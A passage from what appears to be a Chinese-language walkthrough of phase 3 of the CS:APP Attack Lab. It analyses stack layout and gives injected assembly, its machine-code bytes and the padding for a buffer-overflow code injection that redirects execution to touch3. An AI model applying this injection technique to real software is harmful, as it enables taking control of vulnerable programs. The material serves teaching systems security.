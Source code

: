 
由于`hexmatch`和`strncmp`是在`touch3`里面调用的，而`touch3`是在执行攻击代码之后调用，在攻击代码中我们将`%rdi`指向字符串的地址，因此我们需要保证的是`touch3`中的`push`和`pop`指令不影响之前的字符串，以免影响`%rdi`指向的值。

在调用`touch3`之前，我们刚刚执行了`ret`指令，其作用是将返回地址赋值给`%rip`并弹出，操作完成后`%rsp`应该在`buf + 48`位置处。我们是通过直接返回到`touch3`的开头位置来执行`touch3`的，而不是`callq touch3`，因此无需往栈中压入下一条指令的地址（当然这里也没有下一条啦~）

通过上述过程分析我们可以看到，栈的最低位置应该是在经过了一下几个步骤之后：

1. `push %rbx`，这里压入了 rbx，栈位置来到了`buf + 40`
2. `callq hex2match`，这里压入了`callq`的下一条指令的地址，栈位置来到了`buf + 32`
3. `push r12`，压入了`r12`，栈位置来到了`buf + 24`
4. `push rbp`，压入了`rbp`，栈位置来到了`buf + 16`
5. `push rbx`，压入了`rbx`，栈位置来到了`buf + 8`

后续主要执行的都是`pop`和`retq`操作，虽然有一个`callq strncmp`，但是栈的位置不可能低于`buf + 8`。因此我们插入的字符串必须在`buf + 8`之前。我们输入的字符串刚好是 8 个字符，1 个字符一个字节，也刚好是 8 个字节，那么就应当插在`buf`处。从`buf + 8`处开始插入攻击代码。

此外：

1. `59b997fa`的字符串编码应该是：`0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61`（插在攻击代码前）
2. `buf + 8`处的地址是：`0x5561dc80`（插入返回地址部分），转化成小端法应该是`80 dc 61 55`
3. `touch3`的地址是`0x4018fa`

那么我们的攻击指令应该是：

```
movl $0x5561dc78,%edi
subq $0x8,%rsp
movl $0x4018fa,(%rsp)
ret
```

将其放入`ph3.s`中，输入`gcc -c ph3.s`得到`ph3.o`，输入`objdump -d ph3.o > ph3.d`，得到`ph3.d`文件如下：

```

ph3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf 78 dc 61 55       	mov    $0x5561dc78,%edi
   5:	48 83 ec 08          	sub    $0x8,%rsp
   9:	c7 04 24 fa 18 40 00 	movl   $0x4018fa,(%rsp)
  10:	c3                   	retq
  11:	90                   	nop
  12:	90                   	nop
  13:	90                   	nop
  14:	90                   	nop

```

那么其字节应该是`bf 78 dc 61 55 48 83 ec 08 c7 04 24 fa 18 40 00 c3`。一共 17 个字节，加上最前面 8 个字节，一共 25 个字节。最后插入 15 个字节的`nop`。

执行过程中内存情况如下：
